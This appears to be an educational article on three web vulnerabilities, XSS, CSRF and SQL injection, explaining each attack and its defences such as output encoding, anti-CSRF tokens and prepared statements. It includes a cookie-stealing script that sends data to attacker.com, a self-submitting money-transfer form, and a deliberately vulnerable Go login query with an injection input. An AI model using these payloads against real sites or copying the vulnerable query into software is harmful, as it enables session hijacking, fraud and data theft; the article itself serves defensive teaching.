

In the world of system design, security is not an afterthought—it's a foundational requirement. A system that is scalable, resilient, and performant is worthless if it's easily compromised. Building secure web applications requires a deep understanding of common vulnerabilities and the defensive patterns used to mitigate them.

This article covers three of the most notorious web security threats: **Cross-Site Scripting (XSS)**, **Cross-Site Request Forgery (CSRF)**, and **SQL Injection (SQLi)**. We'll explore how these attacks work and discuss the essential countermeasures every developer should know.

### 1. Cross-Site Scripting (XSS)

XSS is an attack where a malicious actor injects malicious scripts (usually JavaScript) into a web page viewed by other users. The victim's browser has no way to know that the script should not be trusted and will execute it. This script can then steal user data (like cookies or session tokens), deface the website, or redirect the user to a malicious site.

There are three main types of XSS attacks:

#### a) Stored (or Persistent) XSS

This is the most dangerous type. The malicious script is permanently stored on the target server, such as in a database, a message forum, a comment field, or a user profile. When a victim navigates to the affected web page, the server sends the page content along with the malicious script, which the victim's browser executes.

**Attack Scenario:**

1.  An attacker posts a comment on a blog: `<script>fetch('https://attacker.com/steal?cookie=' + document.cookie)</script>`.
2.  The blog's backend stores this comment in the database without sanitizing it.
3.  A victim views the blog post. Their browser fetches the comments, including the malicious script.
4.  The script executes, sending the victim's session cookie to the attacker's server. The attacker can now use this cookie to hijack the victim's session.



#### b) Reflected XSS

In a reflected XSS attack, the malicious script is "reflected" off a web server. It's delivered to the victim via a link (e.g., in an email or a chat message). When the victim clicks the link, the script is sent to the server as part of the request (e.g., in a URL parameter) and then reflected back in the HTTP response.

**Attack Scenario:**

1.  A website has a search feature: `https://example.com/search?q=my-search-term`. The search term is displayed on the results page.
2.  An attacker crafts a malicious URL: `https://example.com/search?q=<script>alert('XSS')</script>`.
3.  The attacker sends this link to a victim.
4.  The victim clicks the link. Their browser sends the malicious script to the server.
5.  The server includes the script in the response page (e.g., "Showing results for: `<script>alert('XSS')</script>`").
6.  The victim's browser executes the script.

#### c) DOM-based XSS

This is a more advanced type of XSS where the vulnerability lies entirely in the client-side code. The server is not directly involved. The attack occurs when client-side JavaScript takes data from a user-controllable source (like the URL fragment `#`) and writes it to the DOM in an unsafe way.

**Mitigation for XSS:**

The golden rule is: **Never trust user input.**

1.  **Output Encoding**: This is the most important defense. Before rendering user-provided content in an HTML page, encode it so the browser interprets it as text, not as active content. For example, `<` becomes `&lt;`, `>` becomes `&gt;`, and `"` becomes `&quot;`. Most modern web frameworks provide this functionality automatically (e.g., Go's `html/template` package).
2.  **Content Security Policy (CSP)**: CSP is a browser security mechanism that allows you to specify which sources of content (scripts, styles, images) are allowed to be loaded on your site. A strong CSP can significantly reduce the risk of XSS by preventing the browser from executing scripts from untrusted domains.
    *   Example HTTP Header: `Content-Security-Policy: script-src 'self' https://apis.google.com;` (This allows scripts from your own domain and `apis.google.com` only).
3.  **Input Validation**: While less effective than output encoding for preventing XSS, it's still good practice to validate user input to ensure it conforms to the expected format (e.g., a phone number should only contain digits).

### 2. Cross-Site Request Forgery (CSRF)

CSRF (also known as a "one-click attack" or "session riding") is an attack that tricks a victim into submitting a malicious request. It leverages the trust that a site has in a user's browser. If a user is logged into `bank.com`, and an attacker can trick them into visiting a malicious site, that site can send a request to `bank.com` on the user's behalf. The browser will automatically include the user's session cookie, making the request appear legitimate.

**Attack Scenario:**

1.  A victim is logged into their bank's website, `bank.com`.
2.  The victim visits a malicious website, `evil.com`.
3.  `evil.com` contains a hidden form that automatically submits a request to the bank's server to transfer money:
    ```html
    <form action="https://bank.com/transfer" method="POST" id="csrf-form">
      <input type="hidden" name="to_account" value="attacker_account">
      <input type="hidden" name="amount" value="1000">
    </form>
    <script>document.getElementById('csrf-form').submit();</script>
    ```
4.  The victim's browser submits this form to `bank.com`. Because the user is logged in, the browser automatically attaches their session cookie to the request.
5.  `bank.com` sees a valid request from a logged-in user and processes the transfer.

**Mitigation for CSRF:**

The key is to ensure that the request was intentionally sent by the user.

1.  **Anti-CSRF Tokens (Synchronizer Token Pattern)**: This is the most common defense.
    *   When a user visits a page with a form, the server generates a unique, random token and embeds it as a hidden field in the form. It also stores this token in the user's session.
    *   When the user submits the form, the token is sent back to the server.
    *   The server compares the token from the form with the one in the session. If they match, the request is valid. If they don't match (or the token is missing), the request is rejected.
    *   An attacker on `evil.com` cannot guess this token, so their forged request will fail.
2.  **SameSite Cookies**: This is a modern browser-level defense. You can set the `SameSite` attribute on your session cookie.
    *   `SameSite=Strict`: The cookie will only be sent for requests originating from the same site. This completely blocks CSRF but can break legitimate cross-site links.
    *   `SameSite=Lax`: The cookie is sent on same-site requests and top-level navigations (e.g., clicking a link to your site from another site). This is a good default and prevents CSRF on `POST` requests.
    *   `SameSite=None`: The cookie is sent on all requests (requires `Secure` attribute). This is the old default behavior.

### 3. SQL Injection (SQLi)

SQL Injection is an attack where a malicious actor interferes with the queries that an application makes to its database. It generally allows the attacker to view data they are not normally able to retrieve, or even modify or delete data.

**Attack Scenario:**

Imagine an application uses a user's input to construct a SQL query to log them in:

```go
// VULNERABLE CODE
username := r.FormValue("username")
password := r.FormValue("password")
query := fmt.Sprintf("SELECT * FROM users WHERE username = '%s' AND password = '%s'", username, password)
db.Query(query)
```

An attacker can exploit this by entering a malicious string as the username.

*   **Input**: `admin' --`
*   **Resulting Query**: `SELECT * FROM users WHERE username = 'admin' --' AND password = '...irrelevant...'`

The `--` in SQL is a comment. The database executes the query `SELECT * FROM users WHERE username = 'admin'`, ignoring the rest of the line. The attacker is now logged in as the admin without knowing the password.

**Mitigation for SQLi:**

The only reliable way to prevent SQLi is to **never use string concatenation to build SQL queries**.

1.  **Prepared Statements (with Parameterized Queries)**: This is the gold standard.
    *   Instead of building a query string with user input, you use placeholders (like `?` or `$1`) in your SQL statement.
    *   You then provide the user input as separate parameters to the database driver.
    *   The database treats the SQL code and the user data separately. The user input is never interpreted as executable code.

**Go Example (Secure):**

```go
import "database/sql"

func secureLogin(db *sql.DB, username, password string) (*sql.Rows, error) {
    // Use placeholders (?) for user input
    query := "SELECT * FROM users WHERE username = ? AND password = ?"

    // The database driver safely handles the parameters.
    // The input is treated strictly as data, not as part of the SQL command.
    return db.Query(query, username, password)
}
```

### Conclusion

Web security is a vast and ever-evolving field, but understanding these fundamental vulnerabilities is the first step toward building secure systems. By adopting a security-first mindset and consistently applying best practices—**encoding output to prevent XSS, using anti-CSRF tokens to prevent CSRF, and using prepared statements to prevent SQLi**—developers can build a strong defense against the most common web attacks. Modern frameworks often provide many of these protections out of the box, but it's crucial to understand the principles behind them to use them effectively.